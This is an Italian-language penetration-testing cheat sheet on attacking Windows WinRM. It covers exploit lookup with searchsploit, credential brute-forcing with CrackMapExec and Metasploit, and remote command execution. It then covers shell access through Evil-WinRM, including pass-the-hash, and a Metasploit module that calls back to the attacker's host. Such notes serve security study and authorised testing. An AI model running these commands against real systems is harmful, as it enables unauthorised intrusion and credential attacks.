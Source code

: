 ## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce
Proviamo ora a cercare di ottenere le credenziali manualmente
### CrackMapExec
CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows. 
```bash
crackmapexec winrm <IP> -u <userList> -p <passwordList>
```
> la stessa sintassi vale per l'autenticazione a singolo utente

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS <IP>
set USER_FILE <lista_utenti>
set PASS_FILE <lista_password>
set PASSWORD anything
run
```
> Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario, altrimenti il modulo non eseguirà il test.

---

## Esecuzione Remota di Comandi
Dopo aver ottenuto delle credenziali per qualche account, possiamo accedere al servizio per eseguire dei comandi remoti.
### CrackMapExec
```bash
crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"
```
Permette di eseguire comandi (`-x`) come `whoami`, `hostname`, `systeminfo`, ecc.

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS <IP>
set USERNAME <utente>
set PASSWORD <password>
set CMD "whoami"
run
```
Questo modulo è utile per:
- Verificare se le credenziali funzionano
- Eseguire comandi diagnostici
- Operare in ambienti con logging avanzato
- Testare permessi utente

---

## Accesso
Dopo aver ottenuto delle credenziali e confermato che l'esecuzione dei comandi remoti funziona, possiamo accedere direttamente al servizio per averne il controllo. 
### Evil-WinRM
tool in Ruby pensato per fornire una shell interattiva remota su Windows sfruttando il servizio WinRM, autenticandosi con credenziali valide.
```bash
evil-winrm -u <username> -p '<password>' -i <IP>
```
> Per accedere con NTLM Hash cambiare `-p` con `-H`

Funzionalità disponibili:
- Shell PowerShell interattiva
- Upload e download file
- Esecuzione script PowerShell
- Post-exploitation tools

### Metasploit
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS <IP>
set LHOST <tuo_IP>
set LPORT <Port>
set USERNAME <utente>
set PASSWORD <password>
set FORCE_VBS true
run
```
> L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi con policy restrittive.

